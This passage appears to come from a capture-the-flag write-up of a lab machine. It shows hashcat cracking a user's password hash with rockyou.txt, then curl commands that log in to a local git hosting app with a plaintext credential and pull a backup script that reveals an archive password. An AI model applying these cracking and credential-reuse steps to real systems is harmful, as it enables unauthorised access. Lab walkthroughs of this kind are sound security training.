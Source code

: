 sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
{% endvimhl %}

<br>

I added the hashes to a file and used hashcat to decrypt the hashes, which gave us one result, for the user **tom**.

{% vimhl bash %}
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
{% endvimhl %}

Currently I haven't found anything I could do with this password.

<br>
In our nmap scan, we saw that port 3000 was running.

{% vimhl bash %}
martin@drive:~$ curl http://localhost:3000
{% endvimhl %}

<br>
Seeing its a local git hosting web app, I went digging in the source code. 

After some time, I was able to login and access the DoodleGrive repo to see the back up script and get the backups password using the following steps.

{% vimhl bash %}
martin@drive:~$ curl http://localhost:3000/explore/users

martin@drive:~$ curl http://localhost:3000/user/login

martin@drive:~$ curl -s -L --cookie-jar cookies.txt -D headers.txt -d "user_name=martinCruz&password=Xk4@KjyrYv8t194L!" http://localhost:3000/user/login

martin@drive:~$ curl --cookie cookies.txt http://localhost:3000/crisDisel

martin@drive:~$ curl --cookie cookies.txt http://localhost:3000/crisDisel/DoodleGrive

martin@drive:~$ curl --cookie cookies.txt http://localhost:3000/crisDisel/DoodleGrive/src/branch/main/db_backup.sh

martin@drive:~$ curl --cookie cookies.txt http://localhost:3000/crisDisel/DoodleGrive/raw/branch/main/db_backup.sh
{% endvimhl %}

{% vimhl bash %}
martin@drive:~$ curl --cookie cookies.txt http://localhost:3000/crisDisel/DoodleGrive/raw/branch/main/db_backup.sh
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp
{% endvimhl %}
